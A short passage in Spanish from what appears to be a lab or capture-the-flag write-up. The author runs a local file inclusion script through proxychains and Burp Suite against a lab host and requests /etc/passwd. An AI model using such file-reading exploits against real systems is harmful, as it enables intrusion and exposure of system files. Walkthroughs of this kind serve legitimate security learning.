 ![Write-up Image](images/Screenshot_4.png)

Y ahora si abrimos `burpsuite` e interceptamos las peticiones.

Y ejecutamos el exploit utilizando `proxychains`
```console
$ proxychains python3 lfi.py -u http://10.129.230.220:8080
ProxyChains-3.1 (http://proxychains.sf.net)
Press Ctrl+C to exit
File to download:
> /etc/passwd
|S-chain|-<>-127.0.0.1:8080-<><>-10.129.230.220:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8080-<><>-10.129.230.220:8080-<><>-OK
```

Vemos que interceptamos la petición.
![Write-up Image](images/Screenshot_6.png)
